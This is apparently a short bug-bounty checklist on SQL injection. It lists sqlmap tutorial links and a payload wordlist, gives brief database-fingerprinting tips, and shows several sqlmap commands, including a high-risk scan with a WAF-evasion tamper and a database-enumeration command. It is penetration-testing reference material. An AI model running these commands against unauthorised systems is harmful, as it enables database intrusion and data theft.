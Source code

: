 # SQLi


tools: SQLmap

wordlists:

[raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL injection/SQL.txt](https://raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL%20injection/SQL.txt)

resources:

[https://techyrick.com/sqlmap-full-tutorial/](https://techyrick.com/sqlmap-full-tutorial/)

[https://medium.com/@cuncis/the-ultimate-sqlmap-tutorial-master-sql-injection-and-vulnerability-assessment-4babdc978e7d](https://medium.com/@cuncis/the-ultimate-sqlmap-tutorial-master-sql-injection-and-vulnerability-assessment-4babdc978e7d)

[https://medium.com/@tushar_rs_/sqlmap-a-comprehensive-guide-to-sql-injection-testing-37220e77b0ee](https://medium.com/@tushar_rs_/sqlmap-a-comprehensive-guide-to-sql-injection-testing-37220e77b0ee)

[https://github.com/sqlmapproject/sqlmap/issues/4142](https://github.com/sqlmapproject/sqlmap/issues/4142)

[https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

[https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3)

---

First you need to reconize what, dababase service is runnning behind the site

- check errors and response and try gather information and look for any FingerPrint ups to any database or not. for making progress easier
- check with autorepeater and logger++ methodology.

---

### Commands

[`sqlmap.py](http://sqlmap.py/) -u $1 --batch --random-agent --tamper=space2comment --level 4 --risk 3 --technique=T`

**From File**

```bash
sqlmap -r request.txt
```

**Testing with pattern of URL’s**

```bash
sqlmap -u http://example.com/page/*/view --dbs
```

**Extract Databases (DB Enumeration)**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs
```

